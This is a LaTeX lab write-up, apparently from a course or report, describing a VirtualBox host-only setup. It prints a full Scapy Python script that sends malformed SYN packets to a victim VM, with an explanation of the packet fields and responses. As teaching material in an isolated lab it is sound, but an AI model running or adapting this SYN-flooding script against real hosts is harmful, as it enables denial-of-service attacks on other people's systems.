 \documentclass[11pt]{article}
\begin{document}
The machines will be connected through the VirtualBox “Hostonly” network adapter. By using this method, VirtualBox creates virtual adapters for connections and doesn't try to use a physical network adapter. This setup requires creating a host-only adapter (if none exists).

\subsection{Description of the SYN flooding script}
This script is based on the original created by \href{https://github.com/subodhp}{Subodh Pachghare} in which the VM attacker sends malformed SYN connection packets to the target:\vspace{5mm}

\begin{lstlisting}

#! /usr/bin/env python
import sys
from scapy.all import *
print("Field Values of malformed packet sent")
# Create malformed packet
p = IP(dst = sys.argv[1], id = 1111, ttl = 99)/TCP(sport = RandShort(), dport=80, seq = 12345, ack = 1000, window = 1000, flags = "S")
ls(p)
print("Sending Packets in 0.3 second intervals for timeout of 4 sec")
ans, unans = srloop(p, inter = 0.3, retry = 2, timeout=4)
print("Summary of answered packets")
ans.summary()
print("---------------------------")
print("Summary of unanswered packets")
unans.summary()
print("source port flags in response")
for s,r in ans:
    print r.sprintf("%TCP.sport% \t %TCP.flags%")

\end{lstlisting}

\vspace{5mm}

Let's take a look at some of the details of the malformed packet: the destination address of the packet is passed as a parameter, it will be the address of the victim server (virtual machine). The source port is randomly generated using the RandShort() function. Lastly, the TCP flags are set to "S", in order to send a SYN packet.\vspace{5mm}

We will also use the method srloop() which sends a packet and continues to resend it after each response is received. This method returns a tuple of answered and unanswered packets, we will print a summary of those packets, too, so we can see the response of the target server.\vspace{5mm}

To end, printing the flag of the response packets allows us to check that the target replies are SYN-ACK (SA) responses.\vspace{5mm}
\end{document}

